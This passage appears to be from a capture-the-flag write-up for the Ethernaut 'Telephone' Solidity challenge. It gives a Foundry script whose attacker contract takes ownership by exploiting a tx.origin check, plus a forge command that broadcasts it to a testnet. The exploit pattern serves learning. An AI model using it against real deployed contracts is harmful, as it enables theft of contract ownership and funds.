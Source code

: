 ### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Telephone.sol";

contract Attack {
    Telephone public telephoneInstance;
    address evilOwner;

    constructor(Telephone _telephoneInstance, address _evilOwner) {
        telephoneInstance = _telephoneInstance;
        evilOwner = _evilOwner;
    }

    function exploit() public {
        telephoneInstance.changeOwner(evilOwner);
    }
}

contract TelephoneSolution is Script {
    Telephone public telephoneInstance = Telephone(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Attack attacker = new Attack(
            telephoneInstance,
            vm.envAddress("MY_ADDRESS")
        );
        attacker.exploit();
        console.log("The owner of the contract is:", telephoneInstance.owner());
        console.log("My address is:", vm.envAddress("MY_ADDRESS"));
        vm.stopBroadcast();
    }
}
```

### POC

```bash
forge script script/TelephoneSolution.s.sol --rpc-url $SEPOLIA_URL --tc TelephoneSolution --broadcast
```

---

## Token
